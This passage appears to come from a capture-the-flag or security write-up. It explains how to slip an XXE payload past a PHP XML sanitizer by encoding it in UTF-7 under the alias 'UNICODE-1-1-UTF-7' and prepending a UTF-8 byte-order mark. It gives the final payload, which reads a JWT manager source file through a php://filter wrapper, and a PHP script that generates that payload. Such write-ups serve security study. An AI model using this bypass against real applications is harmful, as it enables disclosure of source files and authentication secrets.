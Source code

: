 ```php
        if (str_starts_with($xml, self::UTF16LE_BOM)) return 'UTF-16LE';
        if (str_starts_with($xml, self::UTF32BE_BOM)) return 'UTF-32BE';
        if (str_starts_with($xml, self::UTF32LE_BOM)) return 'UTF-32LE';
        return '';
    }
}

```

**Bypass using UTF-7 encoding:**
We can obfuscate the `DOCTYPE` declaration using UTF-7 encoding:

```xml
<?xml version="1.0" encoding="UNICODE-1-1-UTF-7" ?>+ADwAIQ-DOCTYPE root +AFs
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-/var/www/html/src/Auth/JWTManager.php+ACIAPg
+AF0APg
```

The characters `<!` in `<!DOCTYPE` are converted to `+ADwAIQ-`, bypassing the regex check. However, UTF-7 is explicitly blocked. Using the somewhat obscure `UNICODE-1-1-UTF-7` alias avoids this exception but crashes the application because it's not recognized by `mb_convert_encoding`, which is called by the application to convert from UTF-7 to UTF-8

**Final bypass:**
We prepend a UTF-8 [BOM](https://en.wikipedia.org/wiki/Byte_order_mark) (`\ufeff`) to the XML payload, which deceives the sanitizer into believing the content is UTF-8. However, the actual encoding is UTF-7, and `simplexml_load_string` processes it as UTF-7. This allows the UTF-7 encoded data to bypass the XML sanitization checks while still being interpreted correctly by the parser.

**Final XXE payload:**
```xml
\ufeff<?xml version="1.0" encoding="UNICODE-1-1-UTF-7" ?>+ADwAIQ-DOCTYPE root +AFs
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-/var/www/html/src/Auth/JWTManager.php+ACIAPg
+AF0APg
```

**Payload Generation Script**:
```php
<?php
// Construct base XXE payload with PHP filter wrapper
$body = '<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/src/Auth/JWTManager.php">
]>';

// Convert to UTF-7 while preserving XML structure
$utf7Body = mb_convert_encoding($body, 'UTF-7', 'UTF-8');

// Prepend BOM and non-standard encoding declaration
$xml = "\ufeff<?xml version=\"1.0\" encoding=\"UNICODE-1-1-UTF-7\" ?>" . $utf7Body;

// Final payload for bypassing XmlScanner checks
echo $xml;
```
